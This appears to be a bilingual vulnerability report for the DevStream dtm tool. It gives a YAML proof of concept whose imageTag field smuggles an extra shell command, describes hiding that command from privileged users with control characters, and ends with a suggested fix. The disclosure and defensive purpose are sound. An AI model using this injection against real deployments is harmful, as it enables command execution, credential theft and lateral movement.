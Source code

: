 ## POC/proof of code

```yaml
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"

```

利用方法为 gitlab ce image 没用启动对应 Container 的时候，执行 `dtm apply -f this.yaml -y` 之后弹出计算器

Exploiting this by executing `dtm apply -f this.yaml -y` and open calc process when gitlab ce image has no container running.

imageTag 无过滤内容，可用退格和 rewind （ascii 同理）以及 # 注释符号搭配使用，对用户进行欺骗

ImageTag filters nothing. Using backspace `\b` or rewind `\r` (ascii also works)with comment `#` cheats privileged user to execute.

## 攻击向量与场景/Attack vector and scenario

**首先配置文件本身并没有被项目做权限检查存在可以被其他平级乃至是低权限用户修改的可能。因此提供了一种从文本写入到命令执行的攻击向量。**

**Above all, the config file premission is loose and no check.It's possible for user who has same or lower privilege to modify config.There provides an attack vector from file writing to command execution.**

其次，项目多处使用了 `docker` `kubectl` 。这类需要 root 或者 docker 组的权限的用户进行执行。**因此往往 dtm 是被高权限使用的。**

Then, Project uses `docker` `kubectl` which needs root or docker group to exec in many packages. **So, `dtm` is always using with high-privileged user.**

由于项目的目的是构造整体的生产环境工具链，也同样聚集了多数最佳实践的配置，同时又支持环境变量或者其他文件读取配置，**所以用户可能并不会对工具配置文件本身亲力亲为。**

Because of the aim of project is completion of production environment toolchains and contains more config with best efforts. Project also allows environment vars or other files to "know" local config. **So user may not put more attention on config files of  tools.**

也存在一种场景，假设**用户配置文件可以通过远程分发和维护**的时候，例如 nacos 统一配置全公司的技术栈和工具链，通过这种配置文件的污染，（能够进行污染的时候，部署的服务和CICD服务可能均已遭到不测），甚至可以导致员工的办公区电脑被入侵。

Another attack scenario is remote delivery and maintenance of users' config file, such as using Nacos unify toolchains and techniques in whole company. Polluting this config file will make computers of developer in office network in danger. (But The Deployment servers and CICD Services is got hacked at that time)

当然命令这里不只是 Open 计算器，由于ImageTag中没有多数的过滤，所以我们几乎可以做任何操作，包括但不限于下载木马文件进行执行，并且由于教程中含有通过环境变量的值的方法传入各种 Token 所以也存在使用 curl 或者其他方法向黑客的恶意 Webhook 服务器发送带有生产或是测试环境的相关的配置与口令从而造成更大的危害。

Not only Calc process opening there, Because of loose filter in ImageTag , We can do everything not only downloading trojan but also stealing tokens and other config in prod or testing via command like `curl` callback to hackers webhook server.

因此，该 ISSUE 具有一定的对使用者的欺骗性质，并且在权限提升和横向渗透中具有利用空间。

Consequently, the issue has potentiality of being exploited in order to achieve privilege escalation and lateral movement through the ignorance of user,
providing a primitive with capability of converting file-written to code execution.

## 缓解与修复/Mitigation and Fix

可以使用 go client for docker engine 实现。

It is believed that using docker client instead of concat command string is a more safe and elegant implementation.

如果非要使用 `exec.Command` 可以将第一位二进制参数设置为 `docker` 替换  `sh -c` 便会大大降低被注入额外命令的风险

Even if considering keeping `exec.Command`, u should using `docker` to deprecate `sh -c` and put parameters to `args` as well
so that the risk of causing an command injection will be considerably decreased.

